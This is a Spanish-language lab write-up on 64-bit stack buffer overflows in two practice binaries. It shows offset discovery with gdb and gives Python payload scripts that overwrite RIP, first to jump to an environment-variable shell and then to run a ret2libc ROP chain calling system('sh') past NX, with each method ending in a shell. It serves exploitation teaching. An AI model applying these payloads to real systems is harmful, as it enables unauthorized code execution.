 # Buffer-OverFlow 64bits

# CLASSIC

[classic.rar](/assets/images/Buffer-Overflow-64bits/classic.rar)

Comprobamos que el ASLR este desactivado.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled.png)

Con ghidra podemos ver el codigo fuente del binario, y vemos que la funcion main llama a una funcion vuln.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%201.png)

El codigo de vuln vemos que tiene seteado un buffer de 400 y utiliza la funcion puts la cual se considera insegura.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%202.png)

Con gdb podemos un breakpoint in main y creamos un pattern de 400

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%203.png)

Ejecutamos el programa y le pasamos ela rchivo buffer donde hemos almacenado nuestro pattern

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%204.png)

“c” para continuar

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%205.png)

Hemos sobreescrito algunas partes del programa pero RIP aun no. Sacamos la direccion de RSP y miramos cuanto es el offset.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%206.png)

Probamos a sobreescribir el RSP con “B”.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%207.png)

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%208.png)

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%209.png)

Creamos un script para crear el payload y poder sobreescribir el RIP

```python
#!/usr/bin/python3
from struct import pack

buffer = b"A"*104
buffer += pack("<Q", 0x42424242)
buffer += pack("<Q", 0x42424242)
buffer += b"C"*288

prueba = open("buffer-rip.txt", "wb")
prueba.write(buffer)
```

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2010.png)

Conseguimos sobreescribir el RIP, ahora tenemos que aprovecharnos del environment del user para añadir un envinronment malicioso y asi llamarlo desde nuestro payload

[https://www.exploit-db.com/exploits/42179](https://www.exploit-db.com/exploits/42179)

Utilizo la llamada a bash del exploit y lo incorporo a mi env de mi user:

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2011.png)

Con esta herramienta sacamos la direccion en la que hace una llamada al env nuestro programa.

[https://raw.githubusercontent.com/historypeats/getenvaddr/master/getenvaddr.c](https://raw.githubusercontent.com/historypeats/getenvaddr/master/getenvaddr.c)

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2012.png)

La añadimos a nuestro script que nos crea una rchivo con el payload malicioso

```python
#!/usr/bin/python3
from struct import pack

buffer = b"A"*104
buffer += pack("<Q", 0x7fffffffc0a8)
buffer += b"C"*288

prueba = open("buffer-rip.txt", "wb")
prueba.write(buffer)
```

Para poder ejecutarlo utilizamos la siguiente string y ejecutamos el programa, y obtenemos una bash.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2013.png)

# RET2LIBC

[ret2libc.rar](/assets/images/Buffer-Overflow-64bits/ret2libc.rar)

Con ghidra leemos el codigo de ret2libc y es igual a classic.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2014.png)

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2015.png)

Lo unico que cambia es que este binario tiene la proteccion NX (no execution) habilitada.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2016.png)

Para bypassear esta restriccion, buscamos con ropper una direccion que contenga rdi.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2017.png)

Apuntamos la direccion de pop rdi, sacamos la direccion de system y de sh

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2018.png)

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2019.png)

Construimos el script para generar una rchivo con un payload malicioso.

```python
#!/usr/bin/python3
from pwn import *
from struct import pack

#direcciones
	#p.system= 0x7ffff7e1b860
 	#pop.rdi= 0x4006a3
 	#sh= 0x6006ff
#rop = pop.rdi+sh+p.system

buffer = b""
buffer += b"A"*104
buffer += pack("<Q", 0x4006a3)
buffer += pack("<Q", 0x6006ff)
buffer += pack("<Q", 0x7ffff7e1b860)

prueba = open("buffer.txt", "wb")
prueba.write(buffer)
```

Lo ejecutamos como anteriormente y obtenemos una bash de nuevo.

![Untitled](/assets/images/Buffer-Overflow-64bits/Untitled%2020.png)